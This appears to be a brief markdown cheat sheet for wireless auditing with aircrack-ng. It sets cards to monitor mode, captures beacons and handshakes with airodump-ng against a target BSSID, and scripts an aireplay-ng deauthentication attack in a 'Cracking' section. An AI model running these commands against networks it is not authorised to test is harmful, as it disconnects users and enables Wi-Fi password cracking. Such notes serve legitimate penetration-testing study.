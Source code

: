 ## General

```bash
1 ap
2 sta
3 ap+sta
```

## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 5 --output-format pcap --write session0 \
            --band bg wlan0
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --bssid CHANGEME --channel 1 wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 5 --output-format pcap --write session0 \
            --bssid CHANGEME --channel 1 wlan0
```

## Cracking
```bash
cat >> deauth.sh << "EndOfMessage"
iwconfig wlan1 channel $1

aireplay-ng -0 99 -D -a $2 -c $3 wlan1
EndOfMessage

chmod +x deauth.sh
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
